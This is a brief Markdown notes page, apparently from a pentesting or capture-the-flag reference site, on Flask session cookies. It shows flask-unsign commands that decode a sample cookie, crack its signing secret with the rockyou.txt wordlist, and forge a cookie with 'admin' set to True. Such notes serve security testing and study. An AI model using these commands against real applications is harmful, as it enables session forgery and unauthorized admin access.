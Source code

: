 ```yaml
---
title: Flask
---
```


## Session cookies
Flask session cookies looks something like this: 
```
eyJhZG1pbiI6ZmFsc2UsInVpZCI6InQxIn0.Y8MWdQ.2GDhtc5YkYsDn6rbJ5BA3XbZmYw
```
Where the first part is base64 encoded data. In this case `{"admin":false,"uid":"t1"}`.

### flask-unsign
To decode, sign and unsign the session cookies, `flask-unsign` can be used.

{{< tabs "flask-unsign" >}}
{{< tab "Decode" >}} 
```Plain
flask-unsign -d -c eyJhZG1pbiI6ZmFsc2UsInVpZCI6InQxIn0.Y8MWdQ.2GDhtc5YkYsDn6rbJ5BA3XbZmYw
```
{{< /tab >}}
{{< tab "Unsign" >}}
```Plain
flask-unsign -u -c eyJhZG1pbiI6ZmFsc2UsInVpZCI6InQxIn0.Y8MWdQ.2GDhtc5YkYsDn6rbJ5BA3XbZmYw
-w rockyou.txt --no-literal-eval
```
{{< /tab >}}
{{< tab "Sign" >}}
```Plain
flask-unsign -S <secret> -s -c "{'admin': True, 'uid': 't1'}"
```
{{< /tab >}}
{{< /tabs >}}
